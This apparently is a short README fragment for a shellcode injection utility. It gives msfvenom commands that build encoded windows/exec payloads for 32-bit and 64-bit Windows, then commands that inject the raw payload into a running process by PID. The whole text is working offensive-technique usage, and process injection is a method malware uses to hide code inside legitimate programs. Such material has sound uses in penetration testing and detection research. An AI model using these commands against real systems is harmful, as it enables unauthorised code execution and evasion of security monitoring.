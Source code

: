 ## Windows

### 32bit

`\windows\syswow64\cmd.exe`

`msfvenom -p windows/exec CMD="c:\path\to\prog.exe arg arg" EXITFUNC=thread -e x86/alpha_mixed -f raw -o exec.txt`

`shellcode_inject.exe PID32 exec.txt`

### 64bit

`msfvenom -p windows/x64/exec CMD="c:\path\to\prog.exe arg arg" EXITFUNC=thread -f raw -o exec.bin`

`shellcode_inject64.exe PID64 exec.bin`

### GPL
